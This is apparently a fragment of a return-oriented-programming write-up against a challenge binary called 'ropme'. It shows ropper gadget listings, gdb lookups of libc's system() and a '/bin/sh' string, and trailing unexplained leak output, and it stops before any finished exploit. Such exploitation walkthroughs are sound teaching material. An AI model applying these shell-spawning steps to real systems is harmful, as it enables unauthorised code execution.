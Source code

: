 Let's try, but firstly, find all what you need:

Software for gadgets searching: [https://github.com/sashs/ropper](https://github.com/sashs/ropper).

```bash
$ ropper --file ropme | grep "pop"                                                                                                                                                                                                     
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000040058c: add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x000000000040058e: add byte ptr [rax], al; pop rbp; ret; 
0x0000000000400578: add byte ptr [rax], al; test rax, rax; je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005c6: add byte ptr [rax], al; test rax, rax; je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax; 
0x000000000040057d: je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005cb: je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax; 
0x0000000000400588: nop dword ptr [rax + rax]; pop rbp; ret; 
0x00000000004005d5: nop dword ptr [rax]; pop rbp; ret; 
0x0000000000400587: nop word ptr [rax + rax]; pop rbp; ret; 
0x00000000004006cc: pop r12; pop r13; pop r14; pop r15; ret; 
0x00000000004006ce: pop r13; pop r14; pop r15; ret; 
0x00000000004006d0: pop r14; pop r15; ret; 
0x00000000004006d2: pop r15; ret; 
0x000000000040057f: pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004006cb: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x00000000004006cf: pop rbp; pop r14; pop r15; ret; 
0x0000000000400590: pop rbp; ret; 
0x00000000004006d3: pop rdi; ret; 
0x00000000004006d1: pop rsi; pop r15; ret; 
0x00000000004006cd: pop rsp; pop r13; pop r14; pop r15; ret; 
0x000000000040058a: test byte ptr [rax], al; add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x000000000040057b: test eax, eax; je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005c9: test eax, eax; je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax; 
0x000000000040057a: test rax, rax; je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005c8: test rax, rax; je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax;
```

This gadget is right what we need: `0x00000000004006d3: pop rdi; ret;`. 

Next, use gdb:

```bash
gef➤  print system
$2 = {int (const char *)} 0x7ffff7e37e50 <__libc_system>
```

```bash
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7ffff7f5f000-0x7ffff7fa9000), permission=r--
  0x7ffff7f79152 - 0x7ffff7f79159  →   "/bin/sh"
```


[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367